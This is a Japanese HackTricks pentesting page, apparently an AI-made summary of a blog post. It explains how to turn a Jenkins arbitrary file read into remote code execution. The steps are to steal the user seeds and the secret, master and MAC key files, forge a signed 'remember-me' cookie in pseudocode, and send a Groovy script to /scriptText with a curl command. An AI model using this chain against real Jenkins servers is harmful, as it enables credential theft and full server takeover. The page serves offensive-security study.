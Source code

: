 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

このブログ投稿では、Jenkinsのローカルファイルインクルージョン脆弱性をRCEに変換する素晴らしい方法を見つけることができます: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

これは、任意のクッキーを作成することがRCEを取得するために悪用される投稿の部分のAIによって作成された要約です。自分で要約を作成する時間ができるまでの間のものです。

### 攻撃の前提条件

* **機能要件:** "Remember me"が有効である必要があります（デフォルト設定）。
* **アクセスレベル:** 攻撃者は全体/読み取り権限が必要です。
* **秘密アクセス:** 重要なファイルからバイナリおよびテキストコンテンツを読み取る能力。

### 詳細な悪用プロセス

#### ステップ1: データ収集

**ユーザー情報の取得**

* 各ユーザーの`$JENKINS_HOME/users/*.xml`からユーザー設定と秘密をアクセスして収集します:
* **ユーザー名**
* **ユーザーシード**
* **タイムスタンプ**
* **パスワードハッシュ**

**秘密鍵の抽出**

* クッキーの署名に使用される暗号鍵を抽出します:
* **秘密鍵:** `$JENKINS_HOME/secret.key`
* **マスター鍵:** `$JENKINS_HOME/secrets/master.key`
* **MAC鍵ファイル:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### ステップ2: クッキーの偽造

**トークンの準備**

*   **トークンの有効期限を計算:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // 現在の時間に1時間を追加
```
{% endcode %}
*   **トークンのデータを連結:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**MAC鍵の復号**

*   **MAC鍵ファイルを復号:**

```javascript
key = toAes128Key(masterKey)  // マスター鍵をAES128鍵形式に変換
decrypted = AES.decrypt(macFile, key)  // .macファイルを復号
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**署名の計算**

*   **HMAC SHA256を計算:**

```javascript
mac = HmacSHA256(token, macKey)  // トークンとMAC鍵を使用してHMACを計算
tokenSignature = bytesToHexString(mac)  // MACを16進数文字列に変換
```

**クッキーのエンコード**

*   **最終クッキーを生成:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // クッキーのデータをBase64エンコード
```
{% endcode %}

#### ステップ3: コード実行

**セッション認証**

* **CSRFおよびセッショントークンを取得:**
* `/crumbIssuer/api/json`にリクエストを送信して`Jenkins-Crumb`を取得します。
* 応答から`JSESSIONID`をキャプチャし、remember-meクッキーと一緒に使用します。

**コマンド実行リクエスト**

*   **Groovyスクリプトを使用してPOSTリクエストを送信:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Groovyスクリプトは、システムレベルのコマンドやJenkins環境内の他の操作を実行するために使用できます。

提供されたcurlコマンドの例は、必要なヘッダーとクッキーを使用してJenkinsにリクエストを送信し、任意のコードを安全に実行する方法を示しています。

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
